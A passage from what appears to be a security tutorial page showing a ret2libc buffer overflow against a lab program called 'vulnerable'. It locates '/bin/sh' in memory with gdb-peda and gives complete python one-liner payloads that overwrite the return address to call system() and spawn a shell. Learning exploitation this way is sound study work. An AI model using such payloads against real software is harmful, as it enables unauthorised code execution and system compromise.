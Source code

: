 In the above screenshot, we can see that at `0xbffffeea` we have the string `SHELL=/bin/sh`. Since we only need the address of the string `/bin/sh` (without the `SHELL=` bit in front, which is 6 characters long), we know that `0xbffffeea + 6` will give us the exact location we are looking for, which is `0xBFFFFEF0`:

![/bin/sh as an environment variable inside the vulnerable program at 0xBFFFFEF0](<../../../.gitbook/assets/image (857).png>)

### Find String in gdb-peda

Worth remembering, that we can look for the required string using gdb-peda like so:

```
find "/bin/sh"
```

![/bin/sh can be seen in multiple locations in the vulnerable program](<../../../.gitbook/assets/image (904).png>)

## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` (located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness), which will execute `/bin/sh` that's present in  `0xb7f52968` (expressed as `\x68\x29\xf5\xb7`), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](<../../../.gitbook/assets/image (854).png>)

Let's see if the exploit works outside gdb:

{% hint style="warning" %}
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
{% endhint %}

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](<../../../.gitbook/assets/exploit-outside-gdb (1).gif>)

## References
